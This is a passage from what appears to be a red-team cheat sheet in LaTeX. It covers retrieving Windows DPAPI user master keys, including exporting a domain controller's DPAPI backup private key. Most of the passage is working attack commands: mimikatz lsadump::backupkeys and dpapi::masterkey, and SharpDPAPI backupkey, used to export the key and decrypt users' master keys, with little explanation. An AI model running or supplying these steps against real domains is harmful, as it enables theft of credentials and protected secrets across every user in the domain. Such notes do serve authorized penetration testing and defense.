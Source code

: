 \begin{lstlisting}[language=sh]
mimikatz # dpapi::masterkey /in:<MASTERKEY_LOCATON> /rpc
\end{lstlisting}


\subsubsection*{User Master Key retrieval from Backup DPAPI Key (from DC)}

Each domain-joined user masterkey blob has a domain backup key component (used in case a user changes their password, smartcard stuff, etc.). This domain masterkey component is encrypted with a DPAPI domain backup private key that exists on domain controllers.

\textit{This key never changes :)}

\begin{itemize}
   \item Export the backup key in a .pvk to the system/current folder you're running this from:
   \begin{lstlisting}[language=sh]
mimikatz # lsadump::backupkeys /system:<DOMAIN CONTROLLER> /export
   \end{lstlisting}

   \item Or from SharpDPAPI (use current DC, display as base64 blob):
   \begin{lstlisting}[language=sh]
SharpDPAPI.exe backupkey [/server:SERVER.domain] [/file:key.pvk]
   \end{lstlisting}

   \item Decrypt the masterkey by using the domain backup key:
   \begin{lstlisting}[language=sh]
mimikatz # dpapi::masterkey /in:b88... /pvk:ntds_capi...e4d8.pvk
   \end{lstlisting}
\end{itemize}

\begin{center}
    \includegraphics[width=\textwidth]{resources/11-user-master-key-retrieval-from-backup-dpapi-key-from-dc.png}
\end{center}

